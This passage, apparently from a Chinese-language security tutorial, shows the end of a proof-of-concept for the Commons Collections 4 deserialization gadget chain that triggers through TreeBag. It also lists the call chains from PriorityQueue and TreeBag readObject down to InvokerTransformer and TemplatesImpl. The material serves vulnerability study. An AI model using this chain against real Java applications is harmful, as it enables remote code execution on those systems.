 ```java
        TreeBag treeBag = new TreeBag(transformingComparator);
        treeBag.add(obj);

        try {
            // 序列化
            ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
            ObjectOutputStream objectOutputStream = new ObjectOutputStream(byteArrayOutputStream);
            objectOutputStream.writeObject(treeBag);
            objectOutputStream.close();

            // 反序列化
            ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(byteArrayOutputStream.toByteArray());
            ObjectInputStream objectInputStream = new ObjectInputStream(byteArrayInputStream);
            objectInputStream.readObject();
            objectInputStream.close();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }

    public static void main(String[] args) {
        try {
            CC4();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
![undefined](https://p4.ssl.qhimg.com/t019962cb8929b6b02c.png "undefined")

## 调用链
PriorityQueue：
```java
PriorityQueue.readObject()
    TransformingComparator.compare()
        *ChainedTransformer.transform()
                InvokerTransformer.transform()
                    InstantiateTransformer.transform()
                        TemplatesImpl.newTransformer() 
```

TreeBag：
```java
org.apache.commons.collections4.bag.TreeBag.readObject()
    org.apache.commons.collections4.bag.AbstractMapBag.doReadObject()
        java.util.TreeMap.put()
            java.util.TreeMap.compare()
                org.apache.commons.collections4.comparators.TransformingComparator.compare()
                        org.apache.commons.collections4.functors.InvokerTransformer.transform()
```
